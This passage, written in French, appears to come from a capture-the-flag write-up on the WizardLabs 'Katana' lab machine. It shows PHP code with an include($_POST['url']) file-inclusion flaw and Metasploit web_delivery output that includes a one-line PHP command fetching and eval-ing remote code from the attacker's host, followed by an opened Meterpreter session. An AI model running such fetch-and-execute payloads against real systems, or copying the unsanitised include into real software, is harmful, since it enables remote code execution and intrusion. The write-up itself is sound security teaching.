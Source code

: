 Pas très bavard, mais quand je coupe la connexion j'ai une erreur plus parlante :  

![WizardLabs CTF Katana URL scanner include() vulnerability](https://github.com/devl00p/blog/raw/master/images/wizard-labs/katana/katana_include.png)

Cette fois on l'a notre faille *include()*.  

Bien sûr on peut aussi lire directement le contenu du script avec la précédente vulnérabilité :  

```php
<?php

include($_POST['url']);

?>
```

Il y a évidement bien des façons d'exploiter cette faille. J'ai utilisé le module *web\_delivery* de Metasploit et juste passé l'URL à inclure :  

```plain
msf5 exploit(multi/script/web_delivery) > [*] Using URL: http://10.254.0.29:8080/PxAh2W8I
[*] Server started.
[*] Run the following command on the target machine:
php -d allow_url_fopen=true -r "eval(file_get_contents('http://10.254.0.29:8080/PxAh2W8I'));"
[*] 10.1.1.52        web_delivery - Delivering Payload
[*] Meterpreter session 2 opened (10.254.0.29:7777 -> 10.1.1.52:56943) at 2019-03-23 11:27:36 +0100

msf5 exploit(multi/script/web_delivery) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > pwd
C:\wamp64\scannerformonero
```

Le Meterpreter PHP a quelques ratées et refuse de nous donner le listing des fichiers ou d'exécuter des commandes sur le système mais il permet au moins l'upload et le téléchargement de fichiers.  

Si il ne permet pas ici l'exécution de fichiers c'est en fait parce que les fonctions PHP liées ont été désactivées comme mentionnées dans le *phpinfo()* que l'on aura préalablement uploadé :  

```plain
exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source
```

On en profite pour confirmer la version du système : *Windows NT KATANA 10.0 build 17134 (Windows 10) AMD64*.  

Il faut aussi compter sur la présence de *Windows Defender*...  
